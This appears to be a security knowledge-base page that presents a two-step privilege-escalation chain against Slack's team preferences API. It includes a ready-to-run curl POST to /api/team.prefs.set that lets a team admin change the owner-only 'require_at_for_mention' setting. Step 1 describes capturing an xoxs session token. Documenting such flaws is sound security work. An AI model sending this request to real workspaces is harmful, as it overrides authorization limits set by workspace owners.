

# Slack Privilege Escalation via Unauthorized Team Preference Modification

Multi-stage attack chain demonstrating a complete attack workflow exploiting a privilege escalation in Slack's team preferences API.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or API client (e.g., curl)

### Target Environment

- Slack workspace with API access
- Web platform
- Services: Slack API

### Initial Access Requirements

- Valid team admin credentials
- Network access to Slack domain (e.g., *.slack.com)
- No prior owner privileges required

## Detailed Attack Procedures

### Step 1: Authenticate as Team Admin
procedure: [[procedures/Exploit-Slack-Team-Prefs-API-Privilege-Escalation]]

**Objective**: Obtain a valid session token as a team admin to enable API requests.

**Instructions**: Log in to the Slack workspace using team admin credentials via the web interface or API to acquire the authentication token (e.g., xoxs- prefixed token).

**Expected Output**: Successful login with access to admin settings and a valid token in browser cookies or API response.

**Success Indicators**:
- Admin dashboard accessible
- Token captured (e.g., via browser dev tools)

### Step 2: Send Crafted POST Request to Modify Setting
procedure: [[procedures/Exploit-Slack-Team-Prefs-API-Privilege-Escalation]]

**Objective**: Exploit the lack of authorization checks to change the owner-restricted 'require_at_for_mention' setting to true, escalating admin privileges.

**Instructions**: Use the admin token to send a POST request to /api/team.prefs.set with the crafted prefs payload. Execute using [[commands/slack-set-team-prefs-post]]:

```bash
curl -X POST "https://example.slack.com/api/team.prefs.set?t=1423143830" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:34.0) Gecko/20100101 Firefox/34.0" \
  -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
  -H "Referer: https://example.slack.com/admin/settings" \
  -H "Cookie: _ga=GA1.2.630936366.1423056192; a-3204538285=..." \
  -d "prefs=%7B%22require_at_for_mention%22%3Atrue%7D&token=xoxs-xxxxx&set_active=true&_attempts=1"
```

Replace placeholders like domain, token, and cookie values with actual ones from Step 1.

**Expected Output**: JSON response with {"ok":true}, confirming the setting change.

**Success Indicators**:
- Setting modified successfully
- Verify in Slack admin settings that 'require_at_for_mention' is now true

## Attack Chain Summary

### Key Achievements

1. Bypassed owner-only restrictions using admin token
2. Unauthorized modification of team-wide preferences
3. Potential disruption to team communication and escalated control

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Privilege Escalation]]

---
*Last updated: 2023-10-01T00:00:00Z*
